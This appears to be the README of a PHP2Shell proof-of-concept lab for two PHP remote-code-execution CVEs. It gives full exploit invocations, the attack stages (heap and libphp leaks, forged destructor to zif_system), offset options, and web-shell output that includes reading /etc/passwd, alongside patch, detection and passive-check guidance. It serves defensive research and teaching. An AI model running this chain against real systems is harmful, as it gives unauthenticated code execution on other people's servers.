


<p align="center">
  
</p>

<h1 align="center">PHP2Shell - CVE-2026-109618 / CVE-2026-109619</h1>

<p align="center">
  
  
  
  
</p>

<p align="center">
  A reproducible, safety-constrained research lab for the PHP OOM-corruption
  and stale-global-state vulnerabilities.<br>
  Zarxec Lab integration by <strong>Zake</strong> (<code>zake1god</code>).
</p>

<p align="center">
  <a href="#overview">Overview</a> &bull;
  <a href="#assess-an-authorized-website-safely">Safe Assessment</a> &bull;
  <a href="#tutorial-run-the-web-server-lab">Run the Lab</a> &bull;
  <a href="#tutorial-run-the-poc-script">Run the PoC</a> &bull;
  <a href="#mitigation-and-source-patching">Mitigation</a> &bull;
  <a href="#responsible-use">Responsible Use</a>
</p>

> [!CAUTION]
> This distribution intentionally refuses every non-loopback exploit target.
> Use RCE mode only with the included disposable Docker lab or an equivalent
> private staging clone. OOM and worker-reuse testing can crash or restart PHP
> workers. The separate `check` mode is a passive, TLS-verified GET suitable
> for an authorized domain or IP.

## Demonstration

<p align="center">
  <a href="video-poc.gif">
    
  </a>
</p>

<p align="center">
  <sub><strong>Loopback-only private-lab demonstration.</strong> Click the preview to view it at full size.</sub>
</p>

## Overview

This repository packages a verified Apache `mod_php` demonstration around the
public PHP2Shell exploit chain. It provides:

- one public Python entry point, `poc-cve-2026-109618.py`;
- a passive remote `check` mode for website owners and defenders;
- the original `-u/--url`, `-c/--cmd`, `--proof-file`, and `--fetch` workflow;
- a post-exploitation command console backed by the vulnerable PHP website;
- an active fictional Zarxec Lab company website at the vulnerable endpoint;
- a vulnerable, patched, and precondition-disabled Docker control matrix;
- automatic local `libphp.so` offset extraction; and
- a persistent proof artifact that distinguishes execution from an HTTP 500,
  timeout, OOM message, or worker crash.

The verified positive control executes as the Apache account `www-data`. After
the proof artifact is observed, the default interactive run enters a
token-gated HTTP command console on the vulnerable website. This does not claim
root privileges, a container escape, or portability to arbitrary PHP builds.

## Lab Matrix

| Variant | Local URL | Runtime | Expected result |
|---|---|---|---|
| Vulnerable | `http://127.0.0.1:8088/index.php` | PHP 8.4.26, Apache `mod_php`, `memory_limit=8M` | RCE proof present |
| Patched | `http://127.0.0.1:8089/index.php` | PHP 8.4.27, matching settings | RCE proof absent |
| Mitigated | `http://127.0.0.1:8090/index.php` | PHP 8.4.26, upload progress disabled and unlimited PHP memory | RCE proof absent |

All three services bind to `127.0.0.1`; they are not exposed on the LAN.

## Affected and Fixed PHP Versions

These are the upstream boundaries published by the PHP project for both CVEs:

| PHP branch | Affected upstream versions | First fixed upstream release |
|---|---:|---:|
| PHP 8.2 | `< 8.2.35` | `8.2.35` |
| PHP 8.3 | `< 8.3.36` | `8.3.36` |
| PHP 8.4 | `< 8.4.27` | `8.4.27` |
| PHP 8.5 | `< 8.5.12` | `8.5.12` |

PHP 8.1 and older are outside normal upstream support. PHP published minimal
source backports for 7.4, 8.0, and 8.1, while operating-system and LTS vendors
may carry their own patches. Never classify a host from a version banner alone;
check the package changelog and effective web SAPI.

Official references:

- [PHP security announcement](https://www.php.net/archive/2026.php)
- [CVE-2026-109618 / GHSA-w8hw-w9fx-j79w](https://github.com/php/php-src/security/advisories/GHSA-w8hw-w9fx-j79w)
- [CVE-2026-109619 / GHSA-6wmf-4rv5-p3rp](https://github.com/php/php-src/security/advisories/GHSA-6wmf-4rv5-p3rp)

Deployment-specific update instructions are available in
[`how-to-patch/README.md`](how-to-patch/README.md). They cover every affected
supported branch, the official legacy backports, Docker, Linux packages,
source builds, Windows, worker restarts, and web-SAPI verification.

> [!NOTE]
> The included RCE profile is calibrated only for the pinned official
> `php:8.4.26-apache` amd64 image. Being in an affected version range does not
> guarantee that this build-specific exploit profile works unchanged on a
> different distribution, SAPI, architecture, allocator, or binary layout.

## Assess an Authorized Website Safely

Website owners can point the passive mode at an authorized domain or IP. It
sends ordinary GET requests, reads at most 8 KiB per response, verifies the TLS
certificate and hostname, and does not send the OOM/session exploit chain. It
follows at most three redirects when the hostname remains identical, including
the common HTTP-to-HTTPS transition. Cross-host redirects and HTTPS downgrades
are recorded but not followed:

```bash
python3 poc-cve-2026-109618.py check -u https://owned.example/
```

An HTTP service addressed directly by IP works the same way:

```bash
python3 poc-cve-2026-109618.py check -u http://192.0.2.10/
```

For an HTTPS service, prefer its certificate-covered DNS name. A private PKI
can be supplied without disabling verification:

```bash
python3 poc-cve-2026-109618.py check \
  -u https://php-staging.internal/ \
  --ca-file /path/to/private-ca.pem \
  --json
```

Possible classifications are:

| Result | Meaning |
|---|---|
| `POTENTIALLY_AFFECTED` | A disclosed PHP version is below the upstream fix boundary; confirm vendor backports and the web SAPI internally |
| `UPSTREAM_FIXED_VERSION` | The disclosed version is at or above the upstream fix boundary; still verify package provenance and worker replacement |
| `INCONCLUSIVE_NO_PHP_VERSION` | The final response did not disclose a PHP version; this is not proof of safety |
| `INCONCLUSIVE_UNKNOWN_PATCH` | The visible version is incomplete or vendor-specific |
| `UNREACHABLE` | No usable HTTP response was obtained, including TLS validation failures |

This is exposure-level evidence only. It deliberately never prints
`VULNERABLE`, because a response banner cannot prove that the running package
lacks a vendor backport, that the required SAPI/configuration is present, or
that code execution is possible. Exit status `0` means an upstream-fixed
version was visible, `1` means an internally verified patch review is required,
and `2` means the passive evidence was inconclusive or unreachable. None of
these check-mode statuses means RCE was attempted or confirmed.

The JSON result includes `http_chain`, `final_url`, the final status code, and
any redirect or TLS reason. Increase or disable the bounded redirect count with
`--max-redirects 0..10` when required by an authorized environment.

For conclusive owner verification, continue with
[`how-to-patch/07-OWNER-ASSESSMENT.md`](how-to-patch/07-OWNER-ASSESSMENT.md).
Collect package and effective web-SAPI evidence from inside the server, patch
and restart every worker, then use a disposable matching staging clone for any
RCE regression test. Exploit mode remains loopback-only by design.

## Requirements

- Linux or WSL2 on `amd64`
- Python 3.10 or newer
- Docker Engine with Docker Compose v2
- approximately 2 GB free disk space
- local ports `8088`, `8089`, and `8090`

No third-party Python packages are required.

## Tutorial: Run the Web-Server Lab

Run every command from the repository root. First confirm the required tools:

```bash
docker version
docker compose version
python3 --version
curl --version
```

Start the three loopback-only web servers:

```bash
cd ~/php2shell
mkdir -p out/patched out/mitigated
docker compose -f lab/compose.yaml pull
docker compose -f lab/compose.yaml up -d --wait
docker compose -f lab/compose.yaml ps
```

The initial image download can take several minutes. Do not continue until
`php2shell-target`, `php2shell-patched`, and `php2shell-mitigated` are all
reported as `healthy`.

Verify the effective PHP web runtime on each service:

```bash
curl -fsS http://127.0.0.1:8088/status.php | python3 -m json.tool
curl -fsS http://127.0.0.1:8089/status.php | python3 -m json.tool
curl -fsS http://127.0.0.1:8090/status.php | python3 -m json.tool
```

Open the active fictional Zarxec Lab company website in a browser:

```text
Vulnerable: http://127.0.0.1:8088/
Patched:    http://127.0.0.1:8089/
Mitigated:  http://127.0.0.1:8090/
```

All three websites should render identically. Only their PHP runtime or
mitigation configuration differs.

## Tutorial: Run the PoC Script

Return to the repository root before running the PoC so relative proof paths
such as `out/p1` resolve correctly:

```bash
cd ~/php2shell
```

### Basic execution

The default command is `id>/out/p1`. The host-visible proof is written to
`./out/p1` through the lab's bind mount.

```bash
python3 poc-cve-2026-109618.py -u http://127.0.0.1:8088/index.php
```

`index.php` remains the visible Zarxec company website and the URL used for
fingerprinting. For the local exploit chain, the script transparently switches
multipart requests to the same website's minimal `/probe.php` endpoint and
prints a `CHAIN` line. The PHP vulnerability occurs during request parsing
before application code; avoiding the large landing-page render removes
unrelated allocations when the 8 MiB request heap is already nearly exhausted.

The script automatically recreates the owned vulnerable container after an
inconclusive heap-layout miss, up to five bounded cycles. A verified successful
run from `~/php2shell` ended with:

```text
[+] PRE-AUTH RCE CONFIRMED

PROOF:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] TARGET-BACKED WEB SHELL ACTIVE
    endpoint: http://127.0.0.1:8088/shell.php
    identity: www-data

www-data@php2shell:/var/www/html$ whoami
www-data
www-data@php2shell:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@php2shell:/var/www/html$ exit
[+] target-backed shell closed and token revoked
```

`HEAP_LEAK_FAILED`, HTTP 500, OOM text, or a worker restart alone is not proof
of either RCE or a successful patch.

RCE mode has two terminal outcomes. A proof artifact activates and
authenticates the target-backed shell and prints `PRE-AUTH RCE CONFIRMED`. If
all bounded cycles end without that artifact, it prints `NO EXECUTION PROOF
OBSERVED` and an `INCONCLUSIVE` verdict. The latter intentionally does not say
`NOT VULNERABLE`: a profile mismatch, different binary layout, unsuitable
worker, or probabilistic heap miss can all prevent this PoC from closing even
when a runtime still requires patch review.

The Compose healthcheck intentionally verifies the Apache process and port 80
listener without requesting a PHP page. This lab uses one persistent prefork
worker; an HTTP healthcheck aimed at `status.php` can run between exploit
requests, perturb the calibrated heap layout, and cause long runs of
inconclusive `HEAP_LEAK_FAILED` results.

Fresh Apache parents can still receive different probabilistic heap layouts.
The script therefore limits Stage 1 to three and Stage 3 to six attempts in one
parent, records cookie/response diagnostics on a miss, and then recreates the
owned vulnerable container. Repeating dozens of attempts in the same bad
parent is slower and does not improve the evidence.

If a checkout still shows repeated Stage 1 misses, apply the current
`lab/compose.yaml` and recreate the services once:

```bash
cd ~/php2shell
docker compose -f lab/compose.yaml up -d --force-recreate --wait
```

The healthcheck command should not contain `php`, `curl`, or `status.php`:

```bash
docker inspect php2shell-target \
  --format '{{json .Config.Healthcheck.Test}}'
```

Expected current value:

```text
["CMD-SHELL","kill -0 1 && grep -q ':0050 ' /proc/net/tcp"]
```

### Explore the target-backed shell

When standard input is an interactive terminal, the basic command automatically
opens the prompt after Stage 3 is independently proven:

```bash
python3 poc-cve-2026-109618.py -u http://127.0.0.1:8088/index.php
```

Commands run through `http://127.0.0.1:8088/shell.php` inside the vulnerable
container, not in the Python process or Kali host. The prompt tracks `cd`, and
ordinary commands can inspect the demonstrated web-worker authority:

```text
www-data@php2shell:/var/www/html$ whoami
www-data
www-data@php2shell:/var/www/html$ pwd
/var/www/html
www-data@php2shell:/var/www/html$ cat /etc/passwd | head
www-data@php2shell:/var/www/html$ cd /tmp
www-data@php2shell:/tmp$ ls -la
```

Type `exit` or `quit` to close the console. Its random token is then revoked,
and direct requests to `shell.php` return HTTP 403 again. Each server-side
command has a 10-second limit and 1 MiB output cap.

For screenshots, scripts, or CI where stdin is not a terminal, execute one
post-exploitation command and exit:

```bash
python3 poc-cve-2026-109618.py \
  -u http://127.0.0.1:8088/index.php \
  --shell-command 'whoami; pwd; id'
```

To retain the earlier proof-only behavior without opening the console:

```bash
python3 poc-cve-2026-109618.py \
  -u http://127.0.0.1:8088/index.php \
  --no-shell
```

The endpoint is unavailable before successful exploitation and is always
disabled on the patched and mitigated controls. The Docker bridge has IP
masquerading disabled, so commands in the lab do not receive ordinary outbound
Internet connectivity.

### Execute a custom command

In proof-only mode, commands of at most 14 bytes execute directly and longer
commands are staged in `./out/c`. Interactive mode also uses that file so the
same Stage 3 command can create the proof and activate its one-run console
token.

```bash
python3 poc-cve-2026-109618.py \
  -u http://127.0.0.1:8088/index.php \
  -c 'id>/out/p1' \
  --proof-file out/p1
```

### Write to the webroot and verify over HTTP

Each container receives a disposable writable copy of the Zarxec website, so
this example does not modify the tracked `lab/www` source directory.

```bash
python3 poc-cve-2026-109618.py \
  -u http://127.0.0.1:8088/index.php \
  -c 'id>p1.txt' \
  --fetch /p1.txt
```

### Passive local fingerprint

```bash
python3 poc-cve-2026-109618.py check -u http://127.0.0.1:8088/index.php
```

This mode classifies the exposed version and headers only; it is not RCE proof.

### List included build profiles

```bash
python3 poc-cve-2026-109618.py --list
```

### Command-line options

| Option | Description | Default |
|---|---|---|
| `check` | Passive GET assessment; accepts an authorized domain or IP without sending the exploit chain | — |
| `-u`, `--url` | URL to assess; exploit mode accepts loopback only | None |
| `--ca-file` | Private CA bundle for check/preflight; TLS hostname verification remains enabled | system trust store |
| `--max-redirects` | Same-host redirects followed by check mode; cross-host and HTTPS downgrade are refused | `3` |
| `-p`, `--proxy` | HTTP proxy used by check mode | empty |
| `-c`, `--cmd` | Command to execute; commands over 14 bytes use `/out/c` staging | `id>/out/p1` |
| `--proof-file` | Host-visible proof file checked after exploitation | `./out/p1` |
| `--fetch` | Relative HTTP path fetched after exploitation | empty |
| `--no-shell` | Stop after the execution proof; do not open the target console | false |
| `--shell-command` | Execute one command through the post-exploitation target console and exit | interactive prompt on a TTY |
| `--shell-timeout` | Client timeout per console request; server limit remains 10 seconds | `15` |
| `--profile` | Named build profile or alias such as `bookworm` | auto-selected |
| `--php-version` | PHP version used when preflight cannot identify it | None |
| `--arch` | Target architecture: `amd64` or `aarch64` | detected locally |
| `--zif-offset` | `zif_system` offset in `libphp.so` | profile/helper |
| `--dtor-offset` | `ZVAL_PTR_DTOR` offset in `libphp.so` | profile/helper |
| `--htdata-offset` | Chunk-relative live-string carrier offset | profile |
| `--offsets-file` | Cache for automatically derived offsets | `./out/offsets.env` |
| `--docker-container` | Local container used by the offset helper | `php2shell-target` |
| `--no-auto-offsets` | Disable automatic Docker symbol extraction | false |
| `--ptr-range` | Accepted leaked-pointer window as `LOW:HIGH` | WSL-compatible local range |
| `--huge-mb` | OOM payload size in MiB | `12` |
| `-t`, `--timeout` | Per-request socket timeout in seconds | `30` |
| `--retries` | Stage 2 leak attempts in one container cycle | `10` |
| `--stage1-attempts-per-cycle` | Heap-leak attempts before recreating the Apache parent | `3` |
| `--stage3-attempts-per-cycle` | Execution attempts before recreating the Apache parent | `6` |
| `--cycles` | Fresh-container cycles after an inconclusive local heap-layout miss | `5` for `php2shell-target` |
| `--no-pre-rotate` | Skip initial worker rotation | false |
| `--no-retry-rotate` | Do not rotate after a missed stage | false |
| `--no-preflight` | Skip server-header platform checks | false |
| `--no-probe` | Skip the one-shot memory-limit probe | false |
| `--dry-run` | Resolve profile and parameters without exploit traffic | false |
| `-q`, `--quiet` | Suppress progress output | false |

Run `python3 poc-cve-2026-109618.py --help` for the authoritative list.

## Negative Controls

Use the correct container for fresh binary offsets when checking a control:

```bash
python3 poc-cve-2026-109618.py \
  -u http://127.0.0.1:8089/index.php \
  --profile php-8.4.26-bookworm-amd64 \
  --docker-container php2shell-patched \
  --offsets-file out/patched/offsets.env \
  --proof-file out/patched/p1 \
  --retries 2 \
  --stage1-attempts-per-cycle 2 \
  --stage3-attempts-per-cycle 2 \
  --cycles 1

python3 poc-cve-2026-109618.py \
  -u http://127.0.0.1:8090/index.php \
  --profile php-8.4.26-bookworm-amd64 \
  --docker-container php2shell-mitigated \
  --offsets-file out/mitigated/offsets.env \
  --proof-file out/mitigated/p1 \
  --no-probe \
  --retries 2 \
  --stage1-attempts-per-cycle 2 \
  --stage3-attempts-per-cycle 2 \
  --cycles 1
```

The negative result is the absence of an execution proof. An HTTP 500, timeout,
OOM warning, connection reset, or heap-corruption log is not RCE proof.

## Profiles and Offsets

The included profile is:

```text
profiles/php-8.4.26-bookworm-amd64.json
```

For the local `php2shell-target` container, `docker/offsets.py` extracts
`zif_system` and `ZVAL_PTR_DTOR` from the running `libphp.so` and writes them to
`out/offsets.env`. This prevents stale offsets from a different binary from
silently poisoning the chain.

Manual offsets can be supplied with `--zif-offset` and `--dtor-offset`, but this
repository deliberately refuses non-loopback exploit targets.

## Impact

Successful exploitation provides unauthenticated command execution with the
privileges of the PHP/web worker. Depending on deployment permissions, this can
allow an attacker to:

- read application source and configuration available to the web account;
- obtain database or service credentials exposed to the application;
- modify web content or temporary files writable by the worker;
- access application data within the service account's authority; and
- use the compromised worker as an initial foothold.

The included lab proves execution as `www-data`; it does not prove root access,
sandbox escape, or access beyond the worker's operating-system permissions.

## Technical Flow

```text
multipart OOM / interrupted request state
                  |
                  v
      Stage 1: Zend heap-base disclosure
                  |
                  v
      Stage 2: libphp base disclosure
                  |
                  v
   Stage 3: forged destructor -> zif_system
                  |
                  v
          ./out/p1 execution artifact
                  |
                  v
   one-run token -> target shell.php console
```

Heap placement is probabilistic. A missed leak is inconclusive; rerun only
against the disposable vulnerable container. A successful run must print
`PRE-AUTH RCE CONFIRMED` and show the independently read proof artifact.

## Mitigation and Source Patching

Upgrade to a fixed release or a vendor package with a documented backport:

- PHP 8.2.35 or newer
- PHP 8.3.36 or newer
- PHP 8.4.27 or newer
- PHP 8.5.12 or newer

Restart every PHP/web worker after patching. Temporary exposure reductions such
as administratively disabling session upload progress or setting
`memory_limit=-1` are path-specific mitigations, not substitutes for the full
upstream state-reset fix.

Defenders should alert on unexpected shell, interpreter, downloader, or
reconnaissance processes spawned by `apache2`, `httpd`, `php-fpm`, or `php-cgi`.

## Stop and Clean the Lab

```bash
cd ~/php2shell
docker compose -f lab/compose.yaml down --remove-orphans
rm -f out/p1 out/c out/offsets.env out/shell.enabled out/shell-token.pending
```

The first command removes only this Compose project's containers and network.
The second removes generated proof artifacts while preserving `.gitkeep`.

## Repository Layout

```text
.
├── Banner.jpg
├── video-poc.gif
├── README.md
├── poc-cve-2026-109618.py
├── docker/
│   └── offsets.py
├── profiles/
│   └── php-8.4.26-bookworm-amd64.json
├── how-to-patch/
│   ├── README.md
│   ├── 01-DOCKER.md
│   ├── 02-LINUX-PACKAGES.md
│   ├── 03-SOURCE-BUILD.md
│   ├── 04-WINDOWS.md
│   ├── 05-VERIFY.md
│   └── 06-TEMPORARY-MITIGATIONS.md
├── out/
│   └── .gitkeep
└── lab/
    ├── compose.yaml
    ├── OBSERVED-RESULTS.md
    ├── config/
    └── www/
        ├── index.php
        ├── probe.php
        ├── shell.php
        ├── status.php
        └── assets/
```

## Credits and Attribution

- [**Zake (`zake1god`) / Zarxec Lab**](https://zarxec.com/) - local
  integration, loopback guard, Docker control matrix, WSL pointer-range
  compatibility, verification, documentation, fictional company website, and
  original banner direction.
- [**godylockz**](https://github.com/godylockz/cve-2026-109618-php2shell) -
  public Python exploit implementation used as the technical base, pinned at
  [commit `a4f91107f8425a835147e27da06954023066300a`](https://github.com/godylockz/cve-2026-109618-php2shell/commit/a4f91107f8425a835147e27da06954023066300a).
- [**Wiz Research**](https://www.wiz.io/blog/php2shell-php-rce) - discovery
  and public analysis of the PHP2Shell vulnerability families.
- [**9bie**](https://github.com/9bie/php2shell-bypass-aslr-exp) - original
  public Set-Cookie heap leak, `libphp` leak, and forged-destructor exploit
  primitives used by the ported chain.
- [**Calif**](https://calif.io/php2shell/) - upload-metadata amplification
  analysis.
- [**Karasawa2025**](https://github.com/Karasawa2025) - research direction
  for `display_errors=Off` environments; that path is not shipped here.
- [**WoYinDao**](https://github.com/WoYinDao) - session-lifecycle and
  pre-RINIT OOM-window research.
- [**Sansec**](https://sansec.io/research/php2shell) - public technical
  write-up and independent research context.
- [**devploit**](https://github.com/devploit/php2shell) - version-aware
  dispatcher, memory-limit probe, build-profile workflow, and per-feature
  attribution inspiration.
- [**PHP Security Team**](https://www.php.net/security/) and the
  [**PHP Foundation**](https://thephp.foundation/) - coordinated advisories,
  fixes, release engineering, and maintenance of the fixed PHP releases.
- [**eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC**](https://github.com/eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC)
  was reviewed only as documentation-layout inspiration. Zarxec branding, the
  Docker fixture, controls, prose, and visual assets in this repository are
  original to this project.

## Responsible Use

Do not remove the loopback restriction or run memory-exhaustion and worker-reuse
payloads against public, customer, or third-party systems. A PHP version header
is not proof of vulnerability, missing vendor backports, exploitability, or
authorization.

> [!WARNING]
> **LAB-ONLY RCE — FOR LEARNING AND DEFENSIVE VALIDATION.** The RCE
> demonstration in this repository is designed exclusively for the
> included disposable loopback lab or an equivalent isolated environment that
> you own. It must not be used to access, disrupt, damage, or obtain a shell on
> another person's system. Keep the exploit restriction intact, patch exposed
> PHP deployments, and use the project to understand and prevent compromise—not
> to cause it.
